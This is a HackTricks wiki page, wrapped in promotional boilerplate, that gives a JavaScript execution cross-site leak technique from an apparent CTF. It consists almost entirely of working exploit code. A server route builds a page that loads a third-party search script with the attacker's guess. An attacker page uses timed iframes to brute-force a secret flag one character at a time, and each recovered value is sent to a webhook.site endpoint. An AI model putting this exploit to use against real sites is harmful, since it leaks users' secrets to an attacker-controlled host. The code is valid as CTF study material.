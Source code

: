 # JavaScript Execution XS Leak

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

```javascript
// Code that will try ${guess} as flag (need rest of the server code
app.get('/guessing', function(req, res) {
    let guess = req.query.guess
    let page = `<html>
                <head>
                    <script>
                            function foo() {
                                // If not the flag this will be executed
                                window.parent.foo()
                            }
                        </script>
                    <script src="https://axol.space/search?query=${guess}&hint=foo()"></script>
                </head>
                <p>hello2</p>
                </html>`
    res.send(page)
});
```

Main page that generates iframes to the previous `/guessing` page to test each possibility

```html
<html>
<head>
    <script>
            let candidateIsGood = false;
            let candidate = ''
            let flag = 'bi0sctf{'
            let guessIndex = -1

            let flagChars = '_0123456789abcdefghijklmnopqrstuvwxyz}ABCDEFGHIJKLMNOPQRSTUVWXYZ'

            // this will get called from our iframe IF the candidate is WRONG
            function foo() {
                candidateIsGood = false
            }

            timerId = setInterval(() => {
                if (candidateIsGood) {
                    flag = candidate
                    guessIndex = -1
                    fetch('https://webhook.site/<yours-goes-here>?flag='+flag)
                }
                
                //Start with true and will be change to false if wrong
                candidateIsGood = true
                guessIndex++
                if (guessIndex >= flagChars.length) {
                    fetch('https://webhook.site/<yours-goes-here>')
                    return
                }
                let guess = flagChars[guessIndex]
                candidate = flag + guess
                let iframe = `<iframe src="/guessing?guess=${encodeURIComponent(candidate)}"></iframe>`
                console.log('iframe: ', iframe)
                hack.innerHTML = iframe
            }
            , 500);
        </script>
</head>
<p>hello</p>
<div id="hack">
</div>
</html>
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

